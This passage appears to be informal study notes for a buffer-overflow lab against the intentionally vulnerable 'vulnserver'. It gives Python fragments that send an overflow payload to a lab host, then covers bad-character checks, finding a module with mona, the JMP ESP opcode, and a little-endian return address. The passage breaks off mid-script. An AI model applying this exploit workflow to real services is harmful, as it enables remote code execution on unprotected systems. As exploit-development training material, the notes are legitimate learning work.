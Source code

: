             shellcode = "A" * 2003 + "B" * 4 + badchars
            
            try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect(('172.16.253.150', 9999))
                s.send(('TRUN /.:/' + shellcode))
                s.close()
                        
                except:
                print "error connecting to server... you fucked somthing up"
                sys.exit()
                
        in immunity highlight the `ESP` value > Rclick > follow in dump
        then in the hex dump we can see all our charaters sent. We are looking
        for anything out of place (from `01` to `FF`) so if you see:
        `3A 3B B0 3D` then `3C` is missing and would be a badchar. A
        badchar will not alwasy be `B0` but will always be the same.
        
    Finding the right module
        looking for a `dll` for something similar in a program that 
        has no memory protections such as no dep, no aslr, no safeseh, ect
        `mona modules` will help us do that. Get `mona.py` from github
        and put it in the windows vm:
        `ThisPC: > LocalDisk(C:) > Program Files (x86) > Immunity INC > Immunity Debugger > PyCommands`
        bottom left of Immunity type: `!mona modules` it will pop up in green
        looking for somthing attached to vulnserver with all falses such
        as `essfunc.dll`
        
        find the opcode equivilent (covert assemble lang to hex code) 
        of a jump in kali
        `locate nasm_shell`
        copy: `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
        and run in term.
            `JMP ESP`
                we see that the hex code of `JMP ESP` is `FFE4`
        in immunity: `!mona find -s "\xff\xe4" -m essfunc.dll`
        this is going to run `JMP ESP` (\xff\xe4) in essfunc.dll
        looking for `return addresses` such as `625011af`
        use each address in a script tell you find XXXX
        (`x86` stores the `low order byte` at the lowest address and
        the `high order byte` at the highest address, ie backwards)
        in immunity: click > go to address in Dissassembler > enter the
        jump code. Top left box will take you to that and should show 
        that it is a `JMP ESP`. highlight it and press `F2` to set a break
        point so it will stop for testing instead of jumping to other code.
            `module_finder.py`
            #!/usr/bin/python
            import sys, socket
            
            #return_address = 625011af
            #enter the return address in little endian format (backwards) for x86
            endian_return = "\xaf\x11\x50\x62" 
            
            shellcode = "A" * 2003 + endian_return 
            